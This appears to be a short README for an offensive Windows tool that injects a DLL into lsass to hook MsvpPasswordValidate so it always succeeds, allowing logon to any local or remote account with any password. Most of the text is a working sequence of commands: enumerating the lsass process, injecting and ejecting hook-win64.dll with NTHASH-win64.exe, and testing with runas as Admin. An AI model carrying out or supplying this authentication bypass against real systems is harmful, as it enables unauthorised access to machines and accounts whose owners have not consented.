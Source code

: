 Hook MsvpPasswordValidate, always return 1 and log on with an account (local or remote) and any password.

How to proceed:</br></br>
Lets retrieve the pid of lsass : nthash-win64 /enumproc | findstr lsass</br>
NTHASH-win64.exe /inject /pid:808 /binary:c:\temp\hook-win64.dll</br>
optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>
test runas /user:Admin cmd OR log on remotely (provide any password) : you win!</br>
NTHASH-win64.exe /eject /pid:808 /binary:hook-win64.dll</br>
optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>

Windows 10 only (since MsvpPasswordValidate now moved in ntlmshared.dll).

